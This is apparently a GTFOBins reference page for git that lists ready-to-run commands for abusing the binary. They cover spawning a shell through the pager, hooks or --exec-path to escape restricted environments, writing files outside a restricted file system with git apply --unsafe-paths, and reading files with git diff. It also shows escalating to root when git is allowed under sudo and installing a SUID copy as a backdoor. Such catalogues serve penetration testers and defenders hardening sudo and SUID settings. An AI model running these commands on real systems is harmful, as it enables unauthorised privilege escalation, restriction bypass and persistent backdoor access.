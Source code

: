 # GTFOBin: git

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
PAGER='sh -c "exec sh 0<&1"' git -p help
```

This invokes the default pager, which is likely to be `less`, other functions may apply.

```
git help config
!/bin/sh
```

The help system can also be reached from any `git` command, e.g., `git branch`. This invokes the default pager, which is likely to be `less`, other functions may apply.

```
git branch --help config
!/bin/sh
```

Git hooks are merely shell scripts and in the following example the hook associated to the `pre-commit` action is used. Any other hook will work, just make sure to be able perform the proper action to trigger it. An existing repository can also be used and moving into the directory works too, i.e., instead of using the `-C` option.

```
TF=$(mktemp -d)
git init "$TF"
echo 'exec /bin/sh 0<&2 1>&2' >"$TF/.git/hooks/pre-commit.sample"
mv "$TF/.git/hooks/pre-commit.sample" "$TF/.git/hooks/pre-commit"
git -C "$TF" commit --allow-empty -m x
```

```
TF=$(mktemp -d)
ln -s /bin/sh "$TF/git-x"
git "--exec-path=$TF" x
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

The patch can be created locally by creating the file that will be written on the target using its absolute path, then `git diff /dev/null /path/to/file >x.patch`.

```
git apply --unsafe-paths --directory / x.patch
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The read file content is displayed in `diff` style output format.

```
LFILE=file_to_read
git diff /dev/null $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo PAGER='sh -c "exec sh 0<&1"' git -p help
```

This invokes the default pager, which is likely to be `less`, other functions may apply.

```
sudo git -p help config
!/bin/sh
```

The help system can also be reached from any `git` command, e.g., `git branch`. This invokes the default pager, which is likely to be `less`, other functions may apply.

```
sudo git branch --help config
!/bin/sh
```

Git hooks are merely shell scripts and in the following example the hook associated to the `pre-commit` action is used. Any other hook will work, just make sure to be able perform the proper action to trigger it. An existing repository can also be used and moving into the directory works too, i.e., instead of using the `-C` option.

```
TF=$(mktemp -d)
git init "$TF"
echo 'exec /bin/sh 0<&2 1>&2' >"$TF/.git/hooks/pre-commit.sample"
mv "$TF/.git/hooks/pre-commit.sample" "$TF/.git/hooks/pre-commit"
sudo git -C "$TF" commit --allow-empty -m x
```

```
TF=$(mktemp -d)
ln -s /bin/sh "$TF/git-x"
sudo git "--exec-path=$TF" x
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which git) .

PAGER='sh -c "exec sh 0<&1"' ./git -p help
```